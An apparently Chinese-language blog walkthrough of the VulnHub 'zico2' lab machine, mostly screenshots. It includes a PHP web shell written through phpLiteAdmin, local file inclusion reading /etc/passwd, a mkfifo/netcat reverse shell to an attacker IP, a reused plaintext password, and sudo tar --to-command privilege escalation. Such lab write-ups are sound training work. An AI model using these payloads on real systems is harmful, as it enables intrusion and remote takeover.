 ```yaml
---
layout: post
title:  "vulnhub >_ zico2"
description: walkthrough
category: vulnhub
---
```

# zico2

![image-20200622021837781]({{ site.url }}/assets/zico2.assets/image-20200622021837781.png)

![image-20200622022112975]({{ site.url }}/assets/zico2.assets/image-20200622022112975.png)

![image-20200622022737755]({{ site.url }}/assets/zico2.assets/image-20200622022737755.png)

dbadmin

![image-20200622022839287]({{ site.url }}/assets/zico2.assets/image-20200622022839287.png)

查看test_db.php发现是phpadmin

![image-20200622022928088]({{ site.url }}/assets/zico2.assets/image-20200622022928088.png)

尝试admin，直接进入了

![image-20200622023011176]({{ site.url }}/assets/zico2.assets/image-20200622023011176.png)

![image-20200622023113651]({{ site.url }}/assets/zico2.assets/image-20200622023113651.png)

根据漏洞信息，我们可以简单的通过新建db的方式在服务器生成我们想要的php文件。

![image-20200622023153208]({{ site.url }}/assets/zico2.assets/image-20200622023153208.png)

![image-20200622023608737]({{ site.url }}/assets/zico2.assets/image-20200622023608737.png)

![image-20200622023640700]({{ site.url }}/assets/zico2.assets/image-20200622023640700.png)

```bash
<?php system("id"); ?>
```

![image-20200622023522255]({{ site.url }}/assets/zico2.assets/image-20200622023522255.png)

![image-20200622204546761]({{ site.url }}/assets/zico2.assets/image-20200622204546761.png)

成功可以在状态中发现准确的物理路径

![image-20200622204755930]({{ site.url }}/assets/zico2.assets/image-20200622204755930.png)



查看页面，发现一处似乎存在文件包含的地方

![image-20200622022336943]({{ site.url }}/assets/zico2.assets/image-20200622022336943.png)

![image-20200622022429941]({{ site.url }}/assets/zico2.assets/image-20200622022429941.png)

测试

```bash
http://10.10.10.143/view.php?page=../../../../etc/passwd
```

![image-20200622022505684]({{ site.url }}/assets/zico2.assets/image-20200622022505684.png)

典型本地文件包含，我们尝试包含之前利用漏洞新建的php,,(由于切换了桥接模式，这里ip发生变化)

```bash
http://192.168.43.44/view.php?page=../../../../../usr/databases/evil.php
```

![image-20200622205008985]({{ site.url }}/assets/zico2.assets/image-20200622205008985.png)

可以看到成功执行evil.php中的命令

再次修改evil.php的内容。使之可以为我们弹回一个shell

![image-20200622205200313]({{ site.url }}/assets/zico2.assets/image-20200622205200313.png)

修改为

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1337 >/tmp/f"); ?>
```

![image-20200622205318316]({{ site.url }}/assets/zico2.assets/image-20200622205318316.png)

建立监听并再次包含

得到shell

![image-20200622202856129]({{ site.url }}/assets/zico2.assets/image-20200622202856129.png)

![image-20200622203520190]({{ site.url }}/assets/zico2.assets/image-20200622203520190.png)

尝试密码复用

```bash
zico
sWfCsfJSPV9H3AmQzw8
```

![image-20200622203616638]({{ site.url }}/assets/zico2.assets/image-20200622203616638.png)



![image-20200622203643460]({{ site.url }}/assets/zico2.assets/image-20200622203643460.png)

利用tar，先写个shell

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1338 >/tmp/f' > shell.sh
```

![image-20200622204157856]({{ site.url }}/assets/zico2.assets/image-20200622204157856.png)

然后将shell压缩

```bash
tar -cvf shell.tar shell.sh
```

![image-20200622204316106]({{ site.url }}/assets/zico2.assets/image-20200622204316106.png)

最后，在kali设置监听，并在目标执行sudo，成功会在kali弹回shell

```bash
sudo /bin/tar -xvf shell.tar --to-command /bin/bash shell.sh
```

![image-20200622204423403]({{ site.url }}/assets/zico2.assets/image-20200622204423403.png)

![image-20200622204437261]({{ site.url }}/assets/zico2.assets/image-20200622204437261.png)

